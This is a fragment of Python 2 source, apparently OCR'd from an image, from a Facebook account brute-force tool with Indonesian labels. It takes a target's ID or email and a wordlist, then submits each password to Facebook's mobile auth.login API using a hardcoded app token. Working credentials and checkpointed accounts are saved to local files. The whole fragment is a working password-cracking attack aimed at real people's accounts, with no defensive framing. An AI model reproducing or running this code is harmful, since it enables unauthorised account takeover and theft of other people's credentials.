 ##### BRUTE FORCE #####
def brute():
	global toket
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('reset')
	print logo
	try:
		email = raw_input("\033[1;91m[+] \033[1;92mID\033[1;97m/\033[1;92mEmail\033[1;97m/\033[1;92mHp \033[1;97mTarget \033[1;91m:\033[1;97m ")
		passw = raw_input("\033[1;91m[+] \033[1;92mWordlist \033[1;97mext(list.txt) \033[1;91m: \033[1;97m")
		total = open(passw,"r")
		total = total.readlines()
		print 42*"\033[1;97m═"
		print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mTarget \033[1;91m:\033[1;97m "+email
		print "\033[1;91m[+] \033[1;92mTotal\033[1;96m "+str(len(total))+" \033[1;92mPassword"
		jalan('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
		sandi = open(passw,"r")
		for pw in sandi:
			try:
				pw = pw.replace("\n","")
				sys.stdout.write("\r\033[1;91m[\033[1;96m✸\033[1;91m] \033[1;92mCrack \033[1;91m: \033[1;97m"+pw)
				sys.stdout.flush()
				data = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(email)+"&locale=en_US&password="+(pw)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
				mpsh = json.loads(data.text)
				if 'access_token' in mpsh:
					dapat = open("Brute.txt", "w")
					dapat.write(email+" | "+pw+"\n")
					dapat.close()
					print "\n\033[1;91m[+] \033[1;92mFound"
					print 42*"\033[1;97m═"
					print("\033[1;91m[➹] \033[1;92mUsername \033[1;91m:\033[1;97m "+email)
					print("\033[1;91m[➹] \033[1;92mPassword \033[1;91m:\033[1;97m "+pw)
					keluar()
				elif 'www.facebook.com' in mpsh["error_msg"]:
					ceks = open("Brutecekpoint.txt", "w")
					ceks.write(email+" | "+pw+"\n")
					ceks.close()
					print "\n\033[1;91m[+] \033[1;92mFound"
					print 42*"\033[1;97m═"
					print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
					print("\033[1;91m[➹] \033[1;92mUsername \033[1;91m:\033[1;97m "+email)
					print("\033[1;91m[➹] \033[1;92mPassword \033[1;91m:\033[1;97m "+pw)
					keluar()
			except requests.exceptions.ConnectionError:
				print"\033[1;91m[!] Connection Error"
				time.sleep(1)
	except IOError:
		print ("\033[1;91m[!] File not found")
		tanyaw()
def tanyaw():
	why = raw_input("\033[1;91m[?] \033[1;92mCreate wordlist ? \033[1;92m[y/n]\033[1;91m:\033[1;97m ")
	if why =="":
		print "\033[1;91m[!] Wrong"